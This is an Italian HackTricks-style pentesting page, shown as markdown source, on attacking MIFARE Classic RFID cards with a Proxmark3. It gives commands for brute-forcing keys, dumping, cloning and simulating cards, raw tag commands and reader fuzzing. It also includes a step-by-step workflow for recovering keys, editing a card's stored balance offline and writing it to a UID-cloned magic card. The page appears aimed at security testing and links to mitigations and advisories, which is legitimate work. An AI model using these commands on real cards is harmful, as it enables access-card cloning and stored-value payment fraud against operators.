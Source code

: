 # Proxmark 3

{{#include ../../banners/hacktricks-training.md}}

## Attaccare i sistemi RFID con Proxmark3

La prima cosa che devi fare è avere un [**Proxmark3**](https://proxmark.com) e [**install the software and it's dependencie**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux).

### Attaccare MIFARE Classic 1KB

Ha **16 settori**, ognuno dei quali ha **4 blocchi** e ogni blocco contiene **16B**. L'UID si trova nel settore 0, blocco 0 (e non può essere modificato).\
Per accedere a ogni settore sono necessarie **2 chiavi** (**A** e **B**) che sono memorizzate in **blocco 3 di ogni settore** (sector trailer). Il sector trailer memorizza anche i **bit di accesso** che danno le autorizzazioni di **lettura e scrittura** su **ogni blocco** usando le 2 chiavi.\
Le 2 chiavi sono utili, ad esempio, per concedere permessi di lettura se conosci la prima e permessi di scrittura se conosci la seconda.

Possono essere eseguiti diversi attacchi
```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```
Il Proxmark3 permette di eseguire altre azioni come **eavesdropping** di una **Tag to Reader communication** per cercare di trovare dati sensibili. Su questa card puoi semplicemente intercettare la comunicazione e calcolare la chiave usata perché le **operazioni crittografiche utilizzate sono deboli** e, conoscendo il testo in chiaro e il testo cifrato, puoi calcolarla (tool `mfkey64`).

#### Flusso di lavoro rapido di MiFare Classic per l'abuso di stored-value

Quando i terminali memorizzano i saldi sulle schede Classic, un tipico flusso end-to-end è:
```bash
# 1) Recover sector keys and dump full card
proxmark3> hf mf autopwn

# 2) Modify dump offline (adjust balance + integrity bytes)
#    Use diffing of before/after top-up dumps to locate fields

# 3) Write modified dump to a UID-changeable ("Chinese magic") tag
proxmark3> hf mf cload -f modified.bin

# 4) Clone original UID so readers recognize the card
proxmark3> hf mf csetuid -u <original_uid>
```
Note

- `hf mf autopwn` orchestra nested/darkside/HardNested-style attacks, recupera chiavi e crea dump nella cartella client dumps.
- La scrittura del block 0/UID funziona solo su magic gen1a/gen2 cards. Le normali Classic cards hanno UID in sola lettura.
- Molte implementazioni usano Classic "value blocks" o simple checksums. Assicurati che tutti i campi duplicati/complementati e i checksums siano coerenti dopo la modifica.

Vedi una metodologia di livello superiore e le mitigazioni in:

{{#ref}}
pentesting-rfid.md
{{#endref}}

### Comandi raw

I sistemi IoT a volte usano **tag non brandizzati o non commerciali**. In questo caso, puoi usare Proxmark3 per inviare comandi **raw personalizzati ai tag**.
```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: WEAK
Valid ISO14443A Tag Found - Quiting Search
```
Con queste informazioni potresti provare a cercare informazioni sulla tessera e sul modo di comunicare con essa. Proxmark3 permette di inviare comandi raw come: `hf 14a raw -p -b 7 26`

### Script

Il software Proxmark3 include una lista precaricata di **script di automazione** che puoi usare per eseguire operazioni semplici. Per ottenere la lista completa, usa il comando `script list`. Poi, usa il comando `script run` seguito dal nome dello script:
```
proxmark3> script run mfkeys
```
Puoi creare uno script per **fuzz tag readers**: copiando i dati di una **valid card**, basta scrivere un **Lua script** che **randomize** uno o più **bytes** casuali e verificare se il **reader crashes** in qualche iterazione.

## Riferimenti

- [Proxmark3 wiki: HF MIFARE](https://github.com/RfidResearchGroup/proxmark3/wiki/HF-Mifare)
- [Proxmark3 wiki: HF Magic cards](https://github.com/RfidResearchGroup/proxmark3/wiki/HF-Magic-cards)
- [NXP statement on MIFARE Classic Crypto1](https://www.mifare.net/en/products/chip-card-ics/mifare-classic/security-statement-on-crypto1-implementations/)
- [NFC card vulnerability exploitation in KioSoft Stored Value (SEC Consult)](https://sec-consult.com/vulnerability-lab/advisory/nfc-card-vulnerability-exploitation-leading-to-free-top-up-kiosoft-payment-solution/)

{{#include ../../banners/hacktricks-training.md}}
